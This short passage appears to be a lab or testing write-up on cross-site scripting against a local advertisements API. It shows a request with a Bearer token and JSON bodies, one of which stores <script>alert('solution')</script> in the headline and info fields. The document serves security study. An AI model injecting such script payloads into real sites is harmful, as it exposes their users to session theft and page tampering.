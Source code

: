 #### Cross Site Scripting

```
http://192.168.1.22:8000/api/v1/advertisements/
```

- Header

```
Key : Content-Type
Value : application/json
```

```
Key : Accept
Value : application/json
```

```
Key : Authorization
Value : Bearer vYcJ7Y7WWRPahB7BDqwjJGMeoLvBl7
```

- POST

```
{
    "headline": "Headline-1",
	"info": "Ramdom Info 1",
    "price":  12.6
}
```

```
{
    "headline": "Headline-2",
	"info": "Ramdom Info 2",
    "price":  66.6
}
```

```
{
    "headline": "<script>alert('solution')</script>",
	"info": "<script>alert('solution')</script>",
    "price":  12.6
}
```

![](images/6/6.png)

![](images/6/7.png)

![](images/6/1.png)

![](images/6/2.png)

![](images/6/3.png)

![](images/6/4.png)

![](images/6/5.png)